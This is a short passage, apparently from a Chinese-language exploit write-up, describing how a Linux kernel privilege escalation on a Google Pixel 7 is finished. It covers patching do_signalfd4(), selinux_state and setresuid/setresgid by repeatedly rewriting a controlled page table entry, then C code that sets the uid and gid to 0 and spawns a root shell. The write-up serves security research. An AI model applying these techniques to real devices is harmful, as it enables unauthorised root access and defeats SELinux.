 ```c
        wake_up(&current->sighand->signalfd_wqh);
        fdput(f);
    }

    return ufd;
}
```

`do_signalfd4()`的物理地址的 bit 18 恰好为1，因此可patch `sigdelsetmask(mask, sigmask(SIGKILL) | sigmask(SIGSTOP));` 语句。如何找到内核某函数的物理地址？

**（3）对内核打补丁**

目标是对`selinux_state`和`setresuid()`/`setresgid()`等函数打补丁，以提权 Google Pixel 7。由于只有一个PTE可控，所以需要多次修改PTE的物理地址。

**（4）调用`setresuid()`、`setresgid()`提权**

```c
if (setresuid(0, 0, 0) < 0) {
    perror("setresuid");
} else {
    if (setresgid(0, 0, 0) < 0) {
        perror("setresgid");
    } else {
        printf("[+] Spawn a root shell\n");
        system("/system/bin/sh");
    }
}
```

最终在Google Pixel 7上成功提权：
